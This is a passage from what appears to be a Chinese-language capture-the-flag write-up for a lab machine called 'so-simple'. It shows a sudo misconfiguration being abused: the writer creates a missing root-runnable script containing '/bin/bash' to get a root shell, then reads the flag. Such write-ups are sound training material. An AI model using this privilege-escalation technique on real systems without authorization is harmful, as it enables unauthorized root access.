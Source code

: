 得到了 user2.txt:

```
$ cat user2.txt
b662b31b7d8cb9f5cdc9c2010337f9b8
```

最后一个 flag 应该是在 root 目录中，sudo 查看 steven 有哪些特权：

```
(root) NOPASSWD: /opt/tools/server-health.sh
```

/opt/tools/server-health.sh 文件不存在，我们可以自己创建，然后切换到 root 用户:

```
$ mkdir -p /opt/tools/
$ echo '/bin/bash' > /opt/tools/server-health.sh
$ chmod +x /opt/tools/server-health.sh
```

执行后最终得到 root 权限，并获取了第三个 flag：

```
$ sudo -u root /opt/tools/server-health.sh
root@so-simple:/home/steven# id
uid=0(root) gid=0(root) groups=0(root)
root@so-simple:/home/steven# cd /root
root@so-simple:~# ls
flag.txt  snap
root@so-simple:~# cat flag.txt


  /$$$$$$                                                     /$$              /$$
 /$$__  $$                                                   | $$             | $$
| $$  \__/  /$$$$$$  /$$$$$$$   /$$$$$$   /$$$$$$  /$$$$$$  /$$$$$$  /$$$$$$$$| $$
| $$       /$$__  $$| $$__  $$ /$$__  $$ /$$__  $$|____  $$|_  $$_/ |____ /$$/| $$
| $$      | $$  \ $$| $$  \ $$| $$  \ $$| $$  \__/ /$$$$$$$  | $$      /$$$$/ |__/
| $$    $$| $$  | $$| $$  | $$| $$  | $$| $$      /$$__  $$  | $$ /$$ /$$__/
|  $$$$$$/|  $$$$$$/| $$  | $$|  $$$$$$$| $$     |  $$$$$$$  |  $$$$//$$$$$$$$ /$$
 \______/  \______/ |__/  |__/ \____  $$|__/      \_______/   \___/ |________/|__/
                               /$$  \ $$
                              |  $$$$$$/
                               \______/
 /$$     /$$                  /$$                                                                           /$$
|  $$   /$$/                 | $/                                                                          | $$
 \  $$ /$$//$$$$$$  /$$   /$$|_//$$    /$$ /$$$$$$         /$$$$$$  /$$  /$$  /$$ /$$$$$$$   /$$$$$$   /$$$$$$$
  \  $$$$//$$__  $$| $$  | $$  |  $$  /$$//$$__  $$       /$$__  $$| $$ | $$ | $$| $$__  $$ /$$__  $$ /$$__  $$
   \  $$/| $$  \ $$| $$  | $$   \  $$/$$/| $$$$$$$$      | $$  \ $$| $$ | $$ | $$| $$  \ $$| $$$$$$$$| $$  | $$
    | $$ | $$  | $$| $$  | $$    \  $$$/ | $$_____/      | $$  | $$| $$ | $$ | $$| $$  | $$| $$_____/| $$  | $$
    | $$ |  $$$$$$/|  $$$$$$/     \  $/  |  $$$$$$$      | $$$$$$$/|  $$$$$/$$$$/| $$  | $$|  $$$$$$$|  $$$$$$$
    |__/  \______/  \______/       \_/    \_______/      | $$____/  \_____/\___/ |__/  |__/ \_______/ \_______/
                                                         | $$
 /$$ /$$$$$$                   /$$$$$$  /$$              | $$       /$$          /$$
| $//$$__  $$                 /$$__  $$|__/              |__/      | $$         | $/
|_/| $$  \__/  /$$$$$$       | $$  \__/ /$$ /$$$$$$/$$$$   /$$$$$$ | $$  /$$$$$$|_/
   |  $$$$$$  /$$__  $$      |  $$$$$$ | $$| $$_  $$_  $$ /$$__  $$| $$ /$$__  $$
    \____  $$| $$  \ $$       \____  $$| $$| $$ \ $$ \ $$| $$  \ $$| $$| $$$$$$$$
    /$$  \ $$| $$  | $$       /$$  \ $$| $$| $$ | $$ | $$| $$  | $$| $$| $$_____/
   |  $$$$$$/|  $$$$$$/      |  $$$$$$/| $$| $$ | $$ | $$| $$$$$$$/| $$|  $$$$$$$
```